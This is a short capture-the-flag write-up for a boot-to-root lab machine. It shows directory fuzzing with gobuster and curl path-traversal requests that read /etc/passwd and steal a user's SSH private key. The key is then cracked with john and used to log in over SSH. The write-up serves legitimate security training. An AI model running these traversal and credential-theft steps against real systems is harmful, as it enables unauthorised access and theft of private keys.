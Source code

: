 # The Projects - User
Author: viipz, rvino
## Description
```
**Category: Boot2Root/Educational** (You can ask for hints if you are stuck)

Are you ready to get an initial foothold on this super duper secure machine? You are looking for a text file called `user.txt` located in the home directory of a user. Spin up an instance and see what all the fuzz is about! 

Brute forcing / Fuzzing is allowed on this challenge.

Click [here](https://ctf.equinor.com/ondemand/) for access to the machine. 

```
## How to solve
First thing is to start fuzzing to figure out what type of page we're looking at: this can be done by checking the index page file type by simply testing /index.php

In this case this page is running on php which is usefull when we bruteforce directories with a tool like gobuster / wfuzz where we can specify what file type to look for.
```
gobuster -w [Your_word_list] -u [webpage] -x [file_type]
```
We find a page for displaying images which can be exploited for a path traversal.
```
curl http//webpage/imagedisplaying.php?i=../../../../etc/passwd
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/.ssh/id_rsa > id_rsa
curl http//webpage/imagedisplaying.php?i=../../../../home/tom/user.txt
chmod 600 id_rsa
ssh2john id_rsa
john id_rsa --wordlist=rockyou.txt
ssh tom@IP -i id_rsa
```